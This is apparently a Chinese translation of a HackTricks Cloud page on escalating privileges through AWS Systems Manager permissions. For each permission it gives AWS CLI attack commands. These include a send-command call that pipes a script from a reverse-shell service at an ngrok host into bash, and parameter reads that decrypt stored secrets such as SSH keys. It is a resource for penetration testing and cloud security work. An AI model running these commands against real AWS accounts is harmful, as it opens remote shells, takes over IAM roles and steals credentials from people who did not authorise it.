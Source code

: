 # AWS - SSM 权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## SSM

有关SSM的更多信息，请查看：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

拥有 **`ssm:SendCommand`** 权限的攻击者可以在运行Amazon SSM Agent的实例中**执行命令**，并**危害**其中运行的IAM角色。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在影响：** 直接提升权限至运行SSM代理的EC2实例所附加的IAM角色。

### `ssm:StartSession`

拥有**`ssm:StartSession`**权限的攻击者可以**在运行Amazon SSM代理的实例中启动类似SSH的会话**，并**危害其中运行的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
**潜在影响：** 直接提升权限至运行中实例所附加的EC2 IAM角色，前提是这些实例上运行着SSM代理。

#### 提升至ECS权限

当**ECS任务**以**`ExecuteCommand`启用**状态运行时，拥有足够权限的用户可以使用`ecs execute-command`在容器内部**执行命令**。\
根据[**文档**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)的说明，这是通过在发起“_exec_”命令的设备与目标容器之间创建一个安全通道来完成的，该通道使用SSM会话管理器。\
因此，拥有`ssm:StartSession`权限的用户将能够通过运行以下命令，在启用了该选项的ECS任务中**获取一个shell**：
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**潜在影响：** 直接提升权限至启用了 `ExecuteCommand` 的运行任务所附加的 `ECS` IAM 角色。

### `ssm:ResumeSession`

拥有 **`ssm:ResumeSession`** 权限的攻击者可以在运行 Amazon SSM Agent 且 SSM 会话状态为**断开**的实例中**重新启动类似 SSH 的会话**，并**危害**其中运行的 IAM 角色。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在影响：** 直接提升权限至带有 SSM Agent 并且会话断开的运行实例的 EC2 IAM 角色。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

拥有上述权限的攻击者将能够列出**SSM 参数**并**明文读取它们**。在这些参数中，你经常可以**找到敏感信息**，如 SSH 密钥或 API 密钥。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在影响：** 在参数中找到敏感信息。

### `ssm:ListCommands`

拥有此权限的攻击者可以列出所有发送的**命令**，并有望在其中找到**敏感信息**。
```
aws ssm list-commands
```
**潜在影响：** 在命令行中找到敏感信息。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

拥有这些权限的攻击者可以列出所有发送的**命令**并**读取输出**，希望能在其中找到**敏感信息**。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在影响：** 在命令行输出中找到敏感信息。

### Codebuild

您还可以使用SSM进入正在构建的codebuild项目：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
